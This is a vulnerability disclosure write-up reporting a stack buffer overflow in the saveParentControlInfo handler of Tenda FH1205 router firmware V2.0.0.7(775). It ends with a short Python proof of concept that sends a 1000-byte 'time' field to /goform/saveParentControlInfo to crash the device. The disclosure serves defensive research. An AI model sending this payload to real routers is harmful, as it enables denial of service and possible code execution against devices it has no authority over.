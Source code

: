 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2236.html

## Affected version

FH1205 V2.0.0.7(775)

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability.

![image-20240319223137445](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223137445.png)

it reads in a user-provided parameter `time`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240319223102122](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223102122.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240319223110983](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223110983.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"time": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320105838954.png)
